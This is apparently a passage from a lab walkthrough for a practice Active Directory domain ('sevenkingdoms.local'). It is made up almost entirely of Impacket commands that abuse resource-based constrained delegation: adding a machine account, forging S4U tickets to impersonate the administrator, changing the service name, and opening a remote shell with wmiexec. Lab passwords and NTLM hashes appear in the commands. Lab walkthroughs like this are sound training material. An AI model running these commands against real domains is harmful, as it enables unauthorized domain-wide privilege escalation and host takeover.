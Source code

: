 ```
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'
# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```

- Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)

```
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- You could also do the 2 (s4u2self + s4u2proxy) in one command :

```
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- And launch the s4uProxy with the forwardable ticket
```
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```
`

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```


## Resource Based Constrained Delegation

- Resource Based Constrained delegation (RBCD)
    
- You can abuse RBCD when you can edit the attribute : msDS-AllowedToActOnBehalfOfOtherIdentity
    
